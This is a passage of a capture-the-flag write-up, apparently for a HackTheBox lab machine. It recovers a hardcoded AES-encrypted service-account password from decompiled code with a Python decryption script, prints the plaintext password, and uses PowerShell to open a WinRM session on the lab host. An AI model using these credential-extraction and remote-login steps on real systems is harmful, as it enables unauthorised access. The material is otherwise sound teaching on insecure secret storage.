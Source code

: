 ```
string text4 = "winrm_svc";
string cipherText = "TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=";
text2 = Decryptor.DecryptString("b14ca5898a4e4133bbce2ea2315a1916", cipherText)
```

So here’s the tea:
- Username is `winrm_svc`
- Encrypted password is stored as a Base64 blob
- Decryption key is hardcoded
- IV is literally all zeroes (because who needs cryptographic hygiene anyway)

The `DecryptString` function just base64-decodes the ciphertext, then runs AES-CBC using that key and the null IV. Easy bake oven level decryption. We can decrypt this with the following Python script:

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend
import base64

def decrypt_string(key: str, cipher_text: str) -> str:
    key_bytes = key.encode('utf-8')
    cipher_bytes = base64.b64decode(cipher_text)

    if len(key_bytes) not in {16, 24, 32}:
        raise ValueError("Key must be 16, 24, or 32 bytes long")

    cipher = Cipher(algorithms.AES(key_bytes), modes.CBC(b'\x00' * 16), backend=default_backend())
    decryptor = cipher.decryptor()

    decrypted_bytes = decryptor.update(cipher_bytes) + decryptor.finalize()

    return decrypted_bytes.decode('utf-8')

key = 'b14ca5898a4e4133bbce2ea2315a1916'
cipher_text = 'TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE='

print(decrypt_string(key,decrypt_string(key, cipher_text)))
```

We recover the password as `WinRm@$svc^!^P`. Now we can also WinRM with this user, which saves us some headaches of resetting passwords and grabbing TGTs.

```powershell
PS C:\> $SecPassword = ConvertTo-SecureString 'WinRm@$svc^!^P' -AsPlainText -Force
PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('infiltrator.htb\winrm_svc', $SecPassword)
PS C:\> Enter-PSSession -Computername 10.10.11.31 -Authentication Negotiate -Credential $Cred
```

We can also login to Output Messenger as this user and find a spicy little post from **Martinez**, casually admitting he dropped his password in the **Chiefs_Marketing_chat** room like it's just another Tuesday. The `winrm_svc` account also has a note with the `lan_management` api key.
